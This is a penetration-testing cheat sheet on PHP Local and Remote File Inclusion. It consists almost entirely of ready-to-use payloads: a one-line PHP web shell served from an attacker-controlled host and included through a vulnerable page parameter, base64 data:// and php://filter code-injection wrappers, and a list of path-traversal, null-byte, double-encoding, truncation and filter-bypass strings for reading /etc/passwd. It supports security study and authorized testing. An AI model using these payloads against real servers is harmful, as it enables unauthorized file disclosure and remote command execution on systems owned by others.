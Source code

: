 # File Inclusion

**Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** are web application vulnerabilities where an attacker can manipulate file paths to include files, either from the local system **(LFI)** or remote servers **(RFI)**, potentially leading to unauthorized access or code execution.

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<host>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

<pre class="language-bash"><code class="lang-bash">echo '&#x3C;?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
<strong>curl 'http://&#x3C;host>/index.php?page=http://&#x3C;attacker>/shell.txt&#x26;cmd=&#x3C;comand>'
</strong></code></pre>

If the server were blocking access to external resources, we could attempt to use the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<host>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<host>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<host>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<host>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<host>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Absolute Path

```powershell
http://<host>/index.php?page=/etc/passwd
```

### Truncation

```powershell
http://<host>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<host>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<host>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
